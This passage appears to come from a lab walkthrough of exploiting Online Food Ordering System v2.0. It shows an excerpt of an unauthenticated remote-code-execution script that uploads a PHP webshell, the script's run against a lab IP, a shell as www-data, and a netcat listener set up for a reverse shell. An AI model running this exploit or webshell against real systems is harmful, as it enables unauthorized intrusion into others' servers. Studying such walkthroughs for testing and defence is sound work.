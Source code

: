 ```python

shell_upload = True if("1" in upload.text) else False
u=shell_upload
if u:
        print(GREEN+"[+]PHP Shell has been uploaded successfully!", RESET)
else:
        print(RED+"[-]Failed To Upload The PHP Shell!", RESET)



#Executing The Webshell
webshell(LINK, s) ←
```

`python3 ./50305.py`:
```
               Online Food Ordering System v2.0
            Unauthenticated Remote Code Execution
               Abdullah "hax.3xploit" Khawaja
                                                                                                                                                                                             

        ______ _______                         ________
        ___  //_/__  /_______ ___      _______ ______(_)_____ _
        __  ,<  __  __ \  __ `/_ | /| / /  __ `/____  /_  __ `/
        _  /| | _  / / / /_/ /__ |/ |/ // /_/ /____  / / /_/ /
        /_/ |_| /_/ /_/\__,_/ ____/|__/ \__,_/ ___  /  \__,_/
                                               /___/
                    abdullahkhawaja.com
            
Enter URL of The Vulnarable Application : http://192.168.56.127/ ←
[*]Uploading PHP Shell For RCE...
[+]PHP Shell has been uploaded successfully! 
[+] Successfully connected to webshell. ←
```

![Victim: www-data](https://img.shields.io/badge/Victim-www%2D-data-64b5f6?logo=linux&logoColor=white)

`whoami`:
```
www-data ←
```

![Attacker](https://custom-icon-badges.demolab.com/badge/Attacker-e57373?logo=kali-linux_white_32&logoColor=white)

`nc -lnvp 5555`:
```        
listening on [any] 5555 ... ←
```

<div>